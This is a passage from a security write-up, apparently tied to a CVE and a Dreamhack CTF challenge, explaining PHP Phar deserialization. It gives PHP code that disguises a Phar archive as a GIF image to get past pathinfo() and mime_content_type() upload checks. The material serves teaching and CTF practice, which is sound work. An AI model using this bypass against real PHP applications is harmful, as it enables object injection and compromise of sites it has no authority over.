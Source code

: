 
### Challenge

I also made a challenge related to this CVE and uploaded it in Dreamhack: [optimizer](https://dreamhack.io/wargame/challenges/2166)

## Phar image?

Phar deserialization in PHP does not depend on the file extension. That means even if we rename a .phar file, the vulnerability still works.

POC:

![image](./images/image18.png)

However, you can't use a file without a proper extension (e.g., test, abc, or test,abc), because PHP functions like pathinfo() rely on file extensions to determine behavior.

`Rename the file with a valid image extension (like .gif, .png, etc.) while keeping the internal structure as a Phar. => Bypass the pathinfo() function`

We can also bypass mime_content_type() checks by adding fake image magic bytes (e.g., for a GIF file) in the Phar stub. Here's how:

```php
$obj = new User();
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("GIF89A<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($obj);
$phar->stopBuffering();
```

